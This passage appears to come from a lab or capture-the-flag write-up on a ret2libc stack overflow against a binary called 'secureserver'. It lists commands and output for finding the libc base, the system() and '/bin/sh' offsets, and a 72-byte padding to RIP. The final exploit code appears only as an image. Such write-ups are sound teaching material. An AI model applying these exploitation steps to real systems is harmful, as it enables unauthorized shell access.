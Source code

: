 **NOTE**: Be sure to add this to your exploit code.

So, when the `system()` function is called, it will look in the `RDI` register for this string.

### Finding Base Address for 64-bit `libc` Library

```
ldd secureserver
        linux-vdso.so.1 (0x00007ffff7fc1000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7d8b000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fc3000)
```

<mark style="color:yellow;">64-bit address</mark> for the <mark style="color:yellow;">`libc`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">base</mark>: `0x7ffff7d8b000`

### Finding `system()` Offset

```
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
  1481: 0000000000050d60    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
```

Our <mark style="color:yellow;">offset</mark> to `system()` <mark style="color:yellow;">from the base address</mark> is: `50d60`

### Finding "/bin/sh" String Offset

```
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
 1d8698 /bin/sh
```

Our <mark style="color:yellow;">offset</mark> for the `"/bin/sh"` <mark style="color:yellow;">string from the base address</mark> is: `1d8698`&#x20;

### Finding the Offset to the Instruction Pointer (RIP)

Load up <mark style="color:yellow;">**Ghidra**</mark> and <mark style="color:yellow;">navigate to the vulnerable function</mark>, <mark style="color:yellow;">`receive_feedback()`</mark> in the **Symbol Tree**:

<figure><img src="../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

We see 0x48 is the offset, so let's convert that to decimal to get our padding for our payload:&#x20;

<figure><img src="../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

This means that <mark style="color:yellow;">our padding will be 72</mark>.

### Exploit Development (pwntools)

Be sure to add the addresses, offsets, and padding we gathered above to your exploit code:

<figure><img src="../../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>
